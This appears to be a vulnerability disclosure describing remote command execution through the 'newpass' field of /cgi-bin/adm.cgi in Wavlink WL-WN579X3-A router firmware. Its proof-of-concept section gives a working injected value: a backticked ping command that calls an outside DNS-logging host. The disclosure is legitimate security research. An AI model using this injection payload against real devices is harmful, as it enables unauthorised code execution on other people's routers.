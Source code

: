 
A issue was dicovered on wavlink device with firmware at least from M79X3.V5030.180530 to M79X3.V5030.201201(newest version for now).   

A remote attacker can execute arbitrary code by sending  a crafted POST request to /cgi-bin/adm.cgi.    


## Intro 

When I was trying to analyze CVE-2020-10971，I downloaded the newest WL-WN579X3-A firmware posted on the official website of Wavlink.   

Firmware: https://www.wavlink.com/en_us/firmware/details/3a4d65ad3d.html  

After I checked all the code branches, I couldn't find the CVE-2020-10971, then I find a more old version firmware on the internet, I do notice that there was a RCE problem at adm.cgi correspond to https://james-clee.com/2020/04/18/multiple-wavlink-vulnerabilities/ .     

![](https://github.com/s0duku/issues/blob/main/wavlink/WL-WN579X3-A_RCE/5.png?raw=true)   

However I notice another RCE at the code branch which is responsible for handling password changes.  

The router has RCE problem when the web server are handling the request for changing the password from authenticated user.  

## The problem code    

![](https://github.com/s0duku/issues/blob/main/wavlink/WL-WN579X3-A_RCE/6.png?raw=true)    

![](https://github.com/s0duku/issues/blob/main/wavlink/WL-WN579X3-A_RCE/7.png?raw=true) 

![](https://github.com/s0duku/issues/blob/main/wavlink/WL-WN579X3-A_RCE/8.png?raw=true) 


## POC  

It not just affect the newest firmware, but alse the older version (at the newest version, serveral IP checks made the attacker can only use the RCE in adjacent networks).  

![](https://github.com/s0duku/issues/blob/main/wavlink/WL-WN579X3-A_RCE/1.png?raw=true)     

Set the 'newpass' value as %60ping%20-c%201%203vkslf.dnslog.cn%60 (\`ping -c 1 3vkslf.dnslog.cn\`)     

![](https://github.com/s0duku/issues/blob/main/wavlink/WL-WN579X3-A_RCE/9.png?raw=true)   

After I sended the POST request, DNSlog platform had the records   

![](https://github.com/s0duku/issues/blob/main/wavlink/WL-WN579X3-A_RCE/10.png?raw=true) 







